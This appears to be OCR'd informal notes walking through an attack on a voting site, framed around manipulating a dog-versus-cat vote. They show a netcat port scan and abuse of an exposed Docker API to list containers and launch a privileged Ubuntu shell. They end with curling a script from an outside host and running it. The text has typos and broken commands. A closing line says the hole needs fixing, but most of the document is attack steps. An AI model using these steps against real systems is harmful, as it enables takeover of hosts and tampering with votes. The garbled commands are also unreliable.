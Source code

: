 someone want to messup voting site (dog is winning over cat), more like manipulation she wants.
1. there is a vote.com and result.com, so she checks - 
ping www.vote.com - 104.21.63.124 .
ping www.result.com - 104.21.63.124 .
both ips respond with same IP which means they both are hosted in same infra.

2. then she scans the ports - 
nc -zv 104.21.63.124 1-1000 .
- nc (Netcat) → Used for network connections and port scanning.
- z → "Zero-I/O mode" (just checks if ports are open, doesn’t send data).

3. she gets docker port (docker api = 2375) open. this means infra runs as docker and this mean app most likely runs as container.

4. since docker is running and infra init, she tried - 
docker -H www.vote.com ps (list all runnning containers).
- she could do docker -H www.vote.com version 

5. now she could run as previllage conatiner using ubuntu - 
docker -H www.vote.com run --priviledge -it ubuntu bash (she is not in pri.. container on the server hosting this app ).

6. now she tried to inject script and for that she needs to download wget, then she can download bad script in this container.
- curl http://my.app.com/tech.sh > tech.sh .
- chmod +x tech.sh && ./tech.sh .

This way she can shutdown servers as well, so this vulnerability needs to be fixed.
